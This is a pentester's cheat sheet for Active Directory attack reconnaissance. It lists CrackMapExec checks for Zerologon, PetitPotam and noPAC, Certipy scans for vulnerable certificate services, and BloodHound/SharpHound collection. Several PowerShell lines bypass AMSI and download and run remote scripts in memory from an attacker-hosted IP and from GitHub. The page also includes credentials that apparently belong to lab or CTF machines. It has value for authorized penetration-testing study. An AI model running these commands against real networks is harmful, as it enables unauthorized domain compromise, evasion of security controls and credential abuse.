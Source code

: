 # AD Attack Recon

## Enumeration Tools

### CrackMapExec

```bash
# Zerologon
crackmapexec smb $RHOST -u '' -p '' -M zerologon

# PetitPotam
crackmapexec smb $RHOST -u '' -p '' -M petitpotam

# noPAC
crackmapexec smb $RHOST -u 'user' -p 'pass' -M nopa
# You need a credential for this one
```

### adPEAS&#x20;

{% code overflow="wrap" %}
```bash
# You need a credential to run adPEAS. 

# Bypass ASMI 
IEX (new-Object Net.WebClient).DownloadString('http://10.0.0.181/privesc/amsi.txt')
IEX (new-Object Net.WebClient).DownloadString('http://10.0.0.181/privesc/my-am-bypass.ps1')

# Import adPEAS
IEX (New-Object Net.WebClient).DownloadString('http://10.0.0.181/privesc/adPEAS.ps1')

# Run the adPEAS
Invoke-adPEAS -Domain 'contoso.com' -Server 'dc1.contoso.com' -Username 'contoso\johndoe' -Password 'Passw0rd1!' -Force

# gMSA account (service account such as svc_apache$) 
Invoke-adPEAS -Domain 'heist.offsec' -Server 'dc01.heist.offsec' -Username 'heist.offsec\enox' -Password 'california' -Force -Module Creds
```
{% endcode %}

### Certipy

Certipy is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS)

{% code overflow="wrap" %}
```bash
# Update Certipy
Kali> python3 -m venv venv
Kali> source venv/bin/activate.fish
Kali> pip3 install certipy-ad
Kali> venv/bin/certipy --version
Certipy v4.8.2 - by Oliver Lyak (ly4k) # as of 01/12/2024 

# Find ADCS related vulnerabilities

kali> venv/bin/certipy find -u Raven -p R4v3nBe5tD3veloP3r!123 -target manager.htb -text -stdout -vulnerable

# This will save it as Bloodhound data
Kali> venv/bin/certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.133.85

# Go to the site and attack the ADCS. 
https://github.com/ly4k/Certipy
```
{% endcode %}

### Bloodhound

#### Server side

{% code overflow="wrap" %}
```bash
sudo service neo4j start
sudo neo4j console
# will initiate the site, http://localhost:7474/ 
bloodhound &
# id: neo4j
# password: bloodhound (default password was neo4j) 
```
{% endcode %}

#### Client side

{% code overflow="wrap" %}
```bash
# Kali 

# Ensure you configure DC FQDN name in host file such as dc01.blackfield.local 
cme ldap $RHOST -u library -p library --bloodhound -ns $RHOST -c all

bloodhound.py -u 'support' -p '#00^BlackKnight' -v --zip -c All -ns 10.129.157.228 -d blackfield.local -dc dc01.blackfield.local 

bloodhound-python --zip -c All -d north.sevenkingdoms.local -u brandon.stark -p iseedeadpeople -dc winterfell.north.sevenkingdoms.local -ns 192.168.56.11  


# Kali with Kerberos authentication 
bloodhound.py -k -u m.lovegod -p AbsoluteLDAP2022! --auth-method kerberos -d absolute.htb -dc dc.absolute.htb -ns 10.129.228.64 --dns-tcp --zip -c All

# At Windows
cmd> .\SharpHound.exe --CollectionMethods All --ZipFileName output.zip
cmd> .\SharpHound.exe --domain THROWBACK.local --domaincontroller 10.200.74.117 --ldapusername "BlaireJ" --ldappassword "7eQgx6YzxgG3vC45t5k9" --CollectionMethods Group,LocalGroup,GPOLocalGroup,Session,LoggedOn,ObjectProps,ACL,ComputerOnly,Trusts,Default,RDP,DCOM,DCOnly

# With Powershell
cmd >powershell -ev bypass
ps>. .\SharpHound.ps1
ps> Invoke-BloodHound -CollectionMethod All -Domain Controller.local -zipFileName dc.zip

# Connect from a non domain joined system. DNS should be pointing to DC. 
cmd> runas /netonly /user:BORDERGATE\Alice cmd.exe
cmd> SharpHound.exe -d bordergate.local 
```
{% endcode %}

### Invoke-AdEnum

{% code overflow="wrap" %}
```powershell
PS> IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum
```
{% endcode %}

### PowerUpSQL

{% code overflow="wrap" %}
```powershell
PS> IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")
```
{% endcode %}

### Pyverview

```
https://github.com/the-useless-one/pywerview
```
